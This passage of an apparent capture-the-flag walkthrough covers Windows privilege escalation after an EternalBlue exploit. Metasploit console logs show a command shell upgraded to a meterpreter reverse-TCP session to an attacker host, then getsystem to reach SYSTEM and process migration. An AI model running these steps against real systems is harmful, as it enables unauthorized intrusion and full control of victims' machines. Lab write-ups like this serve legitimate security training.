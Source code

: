 # Escalating Privileges

Now we have a Windows CMD shell interface established in the connection, to escalate privileges we'll be needing to turn the interface to a meterpreter shell by using a metasploit module, so we'll have to find a way to do so after backgrounding the session.

```shell
C:\Windows\system32>^Z
Background session 1? [y/N]  y
msf6 exploit(windows/smb/ms17_010_eternalblue) > sessions -i

Active sessions
===============

  Id  Name  Type               Information             Connection
  --  ----  ----               -----------             ----------
  1         shell x64/windows  Shell Banner: Microsof  10.10.40.118:4444 -> 10
                               t Windows [Version 6.1  .10.190.171:49244 (10.1
                               .7601] Copyright (c) 2  0.190.171)
                               009 Micros...

msf6 exploit(windows/smb/ms17_010_eternalblue) > 
```

&nbsp;

Now we can search for a module that changes the shell to a meterpreter shell and set the required options before running it

```shell
msf6 exploit(windows/smb/ms17_010_eternalblue) > search shell_to_meterpreter

Matching Modules
================

   #  Name                                    Disclosure Date  Rank    Check  Description
   -  ----                                    ---------------  ----    -----  -----------
   0  post/multi/manage/shell_to_meterpreter  .                normal  No     Shell to Meterpreter Upgrade


Interact with a module by name or index. For example info 0, use 0 or use post/multi/manage/shell_to_meterpreter

msf6 exploit(windows/smb/ms17_010_eternalblue) > use 0
msf6 post(multi/manage/shell_to_meterpreter) > options

Module options (post/multi/manage/shell_to_meterpreter):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   HANDLER  true             yes       Start an exploit/multi/handler to recei
                                       ve the connection
   LHOST                     no        IP of host that will receive the connec
                                       tion from the payload (Will try to auto
                                        detect).
   LPORT    4433             yes       Port for payload to connect to.
   SESSION                   yes       The session to run this module on


View the full module info with the info, or info -d command.

msf6 post(multi/manage/shell_to_meterpreter) > set session 1
session => 1
msf6 post(multi/manage/shell_to_meterpreter) > run

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.10.40.118:4433 
[*] Post module execution completed
msf6 post(multi/manage/shell_to_meterpreter) > 
```

&nbsp;

Alternatively we can use metasploit built-in `sessions -u [SESSION]` command to escalate the session, which can open a new session as meterpreter.

As we get get a meterpreter shell, we can then run `getsystem` command to elevate our permissions from a local administrator to SYSTEM.

```shell
msf6 post(multi/manage/shell_to_meterpreter) > sessions -u 1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.10.40.118:4433  
[*] Sending stage (203846 bytes) to 10.10.190.171
[*] Meterpreter session 2 opened (10.10.40.118:4433 -> 10.10.190.171:49268) at 2025-02-07 19:12:32 +0000
[*] Stopping exploit/multi/handler

msf6 post(multi/manage/shell_to_meterpreter) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > getsystem
meterpreter > shell
Process 2872 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
```

As we can see we have now escalate to NT AUTHOTIRY\\SYSTEM.

List all of the processes running via the 'ps' command. Just because we are system doesn't mean our process is. Find a process towards the bottom of this list that is running at NT AUTHORITY\\SYSTEM and write down the process id

```shell
meterpreter > ps

Process List
============

 PID   PPID  Name         Arch  Session  User               Path
 ---   ----  ----         ----  -------  ----               ----
 0     0     [System Pro
             cess]
 4     0     System       x64   0
 416   4     smss.exe     x64   0        NT AUTHORITY\SYST  \SystemRoot\System
                                         EM                 32\smss.exe
 548   496   csrss.exe    x64   0        NT AUTHORITY\SYST  C:\Windows\system3
                                         EM                 2\csrss.exe
 596   496   wininit.exe  x64   0        NT AUTHORITY\SYST  C:\Windows\system3
                                         EM                 2\wininit.exe
 604   588   csrss.exe    x64   1        NT AUTHORITY\SYST  C:\Windows\system3
                                         EM                 2\csrss.exe
 644   588   winlogon.ex  x64   1        NT AUTHORITY\SYST  C:\Windows\system3
             e                           EM                 2\winlogon.exe
 692   596   services.ex  x64   0        NT AUTHORITY\SYST  C:\Windows\system3
             e                           EM                 2\services.exe
 700   596   lsass.exe    x64   0        NT AUTHORITY\SYST  C:\Windows\system3
                                         EM                 2\lsass.exe
 708   596   lsm.exe      x64   0        NT AUTHORITY\SYST  C:\Windows\system3
                                         EM                 2\lsm.exe
 724   692   svchost.exe  x64   0        NT AUTHORITY\SYST
                                         EM
 816   692   svchost.exe  x64   0        NT AUTHORITY\SYST
                                         EM
 884   692   svchost.exe  x64   0        NT AUTHORITY\NETW
                                         ORK SERVICE
 932   692   svchost.exe  x64   0        NT AUTHORITY\LOCA
                                         L SERVICE
 1000  644   LogonUI.exe  x64   1        NT AUTHORITY\SYST  C:\Windows\system3
                                         EM                 2\LogonUI.exe
 1020  692   svchost.exe  x64   0        NT AUTHORITY\SYST
                                         EM
 1060  692   svchost.exe  x64   0        NT AUTHORITY\LOCA
                                         L SERVICE
 1156  692   svchost.exe  x64   0        NT AUTHORITY\NETW
                                         ORK SERVICE
 1188  2164  powershell.  x64   0        NT AUTHORITY\SYST  C:\Windows\System3
             exe                         EM                 2\WindowsPowerShel
                                                            l\v1.0\powershell.
                                                            exe
 1320  692   svchost.exe  x64   0        NT AUTHORITY\LOCA
                                         L SERVICE
 1392  692   amazon-ssm-  x64   0        NT AUTHORITY\SYST  C:\Program Files\A
             agent.exe                   EM                 mazon\SSM\amazon-s
                                                            sm-agent.exe
 1460  692   LiteAgent.e  x64   0        NT AUTHORITY\SYST  C:\Program Files\A
             xe                          EM                 mazon\XenTools\Lit
                                                            eAgent.exe
 1600  692   Ec2Config.e  x64   0        NT AUTHORITY\SYST  C:\Program Files\A
             xe                          EM                 mazon\Ec2ConfigSer
                                                            vice\Ec2Config.exe
 1908  692   svchost.exe  x64   0        NT AUTHORITY\NETW
                                         ORK SERVICE
 2012  548   conhost.exe  x64   0        NT AUTHORITY\SYST  C:\Windows\system3
                                         EM                 2\conhost.exe
 2060  692   svchost.exe  x64   0        NT AUTHORITY\SYST
                                         EM
 2064  692   svchost.exe  x64   0        NT AUTHORITY\LOCA
                                         L SERVICE
 2076  816   WmiPrvSE.ex
             e
 2340  692   sppsvc.exe   x64   0        NT AUTHORITY\NETW
                                         ORK SERVICE
 2488  692   spoolsv.exe  x64   0        NT AUTHORITY\SYST
                                         EM
 2556  692   vds.exe      x64   0        NT AUTHORITY\SYST
                                         EM
 2660  692   SearchIndex  x64   0        NT AUTHORITY\SYST
             er.exe                      EM
 3028  692   TrustedInst  x64   0        NT AUTHORITY\SYST
             aller.exe                   EM

meterpreter > 

```

&nbsp;

Migrate to this process using the 'migrate PROCESS_ID' command where the process id is the one you just wrote down in the previous step. This may take several attempts, migrating processes is not very stable. If this fails, you may need to re-run the conversion process or reboot the machine and start once again. If this happens, try a different process next time.

This is not necessary if the process we are running as is already SYSTEM.

&nbsp;